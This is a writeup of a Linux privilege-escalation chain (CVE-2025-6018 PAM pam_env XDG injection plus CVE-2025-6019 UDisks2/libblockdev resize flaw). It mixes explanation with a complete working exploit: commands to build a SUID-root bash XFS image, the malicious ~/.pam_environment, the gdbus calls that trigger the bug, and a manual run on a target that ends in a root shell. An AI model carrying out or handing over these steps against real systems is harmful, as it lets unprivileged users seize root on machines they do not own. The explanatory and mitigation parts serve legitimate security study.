









Full credit and respect to 0rionCollector for the original exploit chain research and public proof-of-concept. This writeup is an independent analysis and documentation of the technique for educational purposes.
Original repository: https://github.com/0rionCollector/Exploit-Chain-CVE-2025-6018-6019
Vulnerability Overview
This chain combines two distinct vulnerabilities that individually have limited impact, but together form a complete path from an unprivileged remote shell to full root access. Understanding why each flaw exists is as important as understanding how to trigger it.
| CVE | Component | Class | Standalone Impact |
|---|---|---|---|
| CVE-2025-6018 | PAM pam_env.so (v1.3.0–1.6.0) | Trust boundary violation | Session spoofing (allow_active) |
| CVE-2025-6019 | UDisks2 / libblockdev | Improper error handling | Accessible SUID binary (with allow_active) |
allow_active status — the permission class normally reserved for users at a physical console. CVE-2025-6019 then uses that status to leave a mounted SUID binary accessible in /tmp.
CVE-2025-6018 — PAM Environment Variable Injection
What pam_env.so does
The pam_env.so module is part of the PAM (Pluggable Authentication Modules) framework. Its job is simple: read a user's ~/.pam_environment file and set environment variables when they log in. This was designed for harmless preferences like EDITOR=vim or LANG=en_US.UTF-8.
The OVERRIDE directive
The flaw is in the OVERRIDE directive. In vulnerable versions (PAM 1.3.0 through 1.6.0), this directive lets a user forcibly override any environment variable — including system-critical ones that should never be user-configurable. There is no distinction between safe user preferences and security-sensitive session variables.
XDG_SEAT would later be used by systemd and Polkit for authorization decisions simply didn't exist. No validation was added when those systems were built on top.
Why XDG variables matter
When a user authenticates over SSH, the PAM stack runs modules in sequence. The relevant chain here is: pam_env.so → pam_unix.so → pam_systemd.so. By the time pam_systemd.so creates a session in systemd-logind, it reads the environment it was handed — including any variables set by pam_env.so.
By setting the following variables with OVERRIDE, an attacker tricks pam_systemd.so into registering the session as a local physical session — as if someone is sitting at the console:
# ~/.pam_environment — CVE-2025-6018 payload
XDG_SEAT OVERRIDE=seat0 # Makes session appear tied to physical seat
XDG_VTNR OVERRIDE=1 # Virtual terminal number (console session indicator)
XDG_SESSION_TYPE OVERRIDE=x11 # Tells logind this is a graphical local session
XDG_SESSION_CLASS OVERRIDE=user # Standard user session classWhat systemd-logind does with this
systemd-logind stores session metadata. When Polkit needs to authorize an action, it queries logind: "Is this user at an active local session?" If the session is marked Remote=no, Seat=seat0, Active=yes, the answer is yes — and the user receives allow_active privileges.
These are the same privileges a user at a physical console would have: the ability to mount removable media, interact with UDisks2, and perform other hardware-adjacent operations. An SSH user should never have these. After injecting the PAM environment and re-authenticating, they do.
CVE-2025-6019 — UDisks2/libblockdev Error Handling Flaw
The libblockdev XFS resize path
UDisks2 is the daemon that manages block devices. It delegates filesystem operations to libblockdev. When a user requests an XFS filesystem resize, libblockdev follows this logic:
Why this is exploitable
An attacker with allow_active permissions can call UDisks2.Filesystem.Resize via D-Bus. If they supply an impossible size (like 0), the resize fails — but if the attacker's loop device contains an XFS filesystem, it gets mounted at /tmp/blockdev.XXXXXX/ first.
If that filesystem image was prepared with a SUID-root bash binary, that binary is now sitting in /tmp, owned by root, with the SUID bit intact. Executing it with -p (preserve privileges) yields an effective UID of 0.
The Chain of Broken Trust
What makes this attack particularly clean is that every component in the stack behaves exactly as designed — the problem is that the design assumptions no longer hold. No single component validates that the data it receives is actually plausible.
Exploit Code Analysis
The PoC by 0rionCollector is a well-structured three-stage bash script. Here's a breakdown of each stage:
Stage 1 — Building the weapon (attacker machine, run as root)
This stage creates the XFS filesystem image containing a SUID-root bash binary. Must be run as root on the attacker's machine because setting SUID bits requires root ownership.
# Create a 300MB zero-filled disk image
dd if=/dev/zero of=xfs.image bs=1M count=300
# Format as XFS — required for CVE-2025-6019 (XFS-specific resize path)
mkfs.xfs -f xfs.image
# Mount and plant the SUID bash
mount -o loop xfs.image /mnt
cp /bin/bash /mnt/bash
chown root:root /mnt/bash
chmod 4755 /mnt/bash # 4755 = SUID + rwxr-xr-x
umount /mnt
# Transfer to target
scp xfs.image user@target:/tmp/Stage 2 — PAM injection (CVE-2025-6018, on target)
Creates the malicious ~/.pam_environment file. This file is processed on the next SSH login — so after running this stage, you must logout and reconnect.
# ~/.pam_environment — written by exploit Stage 2
XDG_SEAT OVERRIDE=seat0
XDG_VTNR OVERRIDE=1
XDG_SESSION_TYPE OVERRIDE=x11
XDG_SESSION_CLASS OVERRIDE=userAfter re-authenticating, the script verifies the injection worked by calling the Polkit CanReboot method — if it returns ('yes',), the session now has allow_active status.
# Verify allow_active was obtained
gdbus call --system \
--dest org.freedesktop.login1 \
--object-path /org/freedesktop/login1 \
--method org.freedesktop.login1.Manager.CanReboot
# Expected: ('yes', ...)
# Previously would have returned: ('auth', ...)Stage 3 — UDisks2 exploitation (CVE-2025-6019, on target)
This stage triggers the bug. First, a loop device is created from the image via UDisks2 (this requires allow_active). Then the intentionally-failing resize is called.
# Kill gvfs monitor — it would auto-unmount the stuck filesystem
killall -KILL gvfs-udisks2-volume-monitor
# Register the XFS image as a loop device via UDisks2
udisksctl loop-setup --file /tmp/xfs.image --no-user-interaction
# Returns: Mapped file /tmp/xfs.image as /dev/loop1
# Trigger CVE-2025-6019: resize with invalid size=0 → mounts but never unmounts
gdbus call --system \
--dest org.freedesktop.UDisks2 \
--object-path /org/freedesktop/UDisks2/block_devices/loop1 \
--method org.freedesktop.UDisks2.Filesystem.Resize \
0 '{}'
# Error is expected — libblockdev mounts, fails, returns WITHOUT unmounting
# Filesystem is now live at /tmp/blockdev.XXXXXX/
# Execute the SUID bash left behind in Stage 1
/tmp/blockdev.*/bash -p
# -p = preserve EUID — SUID bit makes euid=0
# Result: uid=1000 euid=0 — root shell-p? By default, bash drops elevated privileges if it detects EUID ≠ UID (a safety feature). The -p flag disables this behavior and preserves the effective UID set by the SUID bit — giving you root.
Why kill gvfs-udisks2-volume-monitor?
The GNOME Virtual Filesystem monitor watches for newly mounted volumes and may automatically unmount them or clean up temporary mounts. Killing it before the trigger ensures the stuck mount stays alive long enough to execute the SUID binary.
Manual Exploitation — Step by Step
The following walkthrough demonstrates the full attack chain executed manually on target pterodactyl as user phileasfogg3. Every screenshot is from the actual exploitation run.
Step 1 — Baseline session check
Before touching anything, record the current session state. Standard SSH session — Remote is set, no physical seat, no Polkit allow_active permissions.

loginctl session-status
# Remote=yes → this is an SSH session
# Seat= (empty) → no physical seat
# Polkit will return 'auth' for allow_active actionsStep 2 — Write the malicious .pam_environment
Create the file that will poison the session on next login. The OVERRIDE keyword is what makes this bypass possible.

cat > ~/.pam_environment << 'EOF'
XDG_SEAT OVERRIDE=seat0
XDG_VTNR OVERRIDE=1
XDG_SESSION_TYPE OVERRIDE=x11
XDG_SESSION_CLASS OVERRIDE=user
EOF
cat ~/.pam_environment # verifyStep 3 — Confirm pam_env.so is in the PAM stack
Before logging out, verify pam_env.so is actually loaded — otherwise the file is silently ignored. Multiple PAM configs reference it, including common-session which runs on every SSH login.

grep -r "pam_env" /etc/pam.d/
# common-auth: auth required pam_env.so
# common-session: session optional pam_env.soStep 4 — Re-authenticate and confirm seat injection
Logout, SSH back in. PAM injects the XDG variables, pam_systemd.so passes them to systemd-logind, and the session is now registered with Seat: seat0; vc1 despite being a remote connection.

Step 5 — Verify allow_active granted via Polkit
Call CanReboot on the login1 D-Bus interface. Before injection this returned ('auth',). Now it returns ('yes',) — Polkit confirms allow_active.

gdbus call --system \
--dest org.freedesktop.login1 \
--object-path /org/freedesktop/login1 \
--method org.freedesktop.login1.Manager.CanReboot
('yes',) # Was ('auth',) before injectionStep 6 — Kill gvfs monitor and create loop device
Kill gvfs-udisks2-volume-monitor — it would auto-unmount the stuck filesystem and kill the exploit. Then register the XFS image as /dev/loop0 via UDisks2, which now accepts the call because we have allow_active.

killall -KILL gvfs-udisks2-volume-monitor 2>/dev/null
udisksctl loop-setup --file /tmp/xfs.image --no-user-interaction
Mapped file /tmp/xfs.image as /dev/loop0.
ls -la /dev/loop0
brw-rw---- 1 root disk 7, 0 Feb 21 19:19 /dev/loop0Step 7 — Capture loop device path dynamically
The loop device number varies depending on what's already active. Capture it into $LOOP_DEV to pass the correct object path to the D-Bus resize call.

LOOP_OUTPUT=$(udisksctl loop-setup --file /tmp/xfs.image --no-user-interaction 2>&1)
LOOP_DEV=$(echo "$LOOP_OUTPUT" | grep -o '/dev/loop[0-9]*')
echo "Loop device: $LOOP_DEV"
Loop device: /dev/loop1Step 8 — Trigger CVE-2025-6019 via Filesystem.Resize
Call the vulnerable D-Bus method with size=0. libblockdev mounts the XFS filesystem, attempts the resize, fails, and exits the error path without calling unmount. The filesystem stays mounted at /tmp/blockdev.XXXXXX/.

OBJECT_PATH="/org/freedesktop/UDisks2/block_devices/loop0"
gdbus call --system \
--dest org.freedesktop.UDisks2 \
--object-path "$OBJECT_PATH" \
--method org.freedesktop.UDisks2.Filesystem.Resize \
0 '{}'
Error: GDBus.Error:org.freedesktop.UDisks2.Error.Failed:
Error resizing filesystem on /dev/loop0: Failed to mount '/dev/loop0'...
# Filesystem mounted + abandoned by libblockdev — exploit in positionStep 9 — Navigate to stuck mount → execute SUID bash → root
List /tmp to find the blockdev.* directory libblockdev created and abandoned. Navigate in, confirm the SUID bash binary is there, execute with -p. The SUID bit sets euid=0.

ls -la /tmp/
drwx------ root blockdev.FHVUK3 # size 18 — has files, this is the one
# blockdev.6UB1K3, CF66K3, ODN2K3 — empty (earlier failed attempts)
cd /tmp/blockdev.FHVUK3 && ls
bash # SUID root bash prepared in Stage 1
./bash -p
bash-5.3# id
uid=1002(phileasfogg3) gid=100(users) euid=0(root) groups=100(users)
# euid=0 — root shell. Chain complete.Summary
This chain is a textbook example of how legacy design decisions compound over time. PAM's trust in user environment files, built in the 1990s, was reasonable then. The problem emerged when systemd, Polkit, and UDisks2 were layered on top without anyone asking: "what happens if the data in these variables is wrong?"
The libblockdev bug is simpler — a developer forgot to call umount in an error path. But without CVE-2025-6018 unlocking allow_active, that error path isn't reachable from an unprivileged SSH session.
user_readenv=1 and consider whether it's necessary. The OVERRIDE directive should never apply to XDG session variables.
Full credit to 0rionCollector for the original research and PoC development.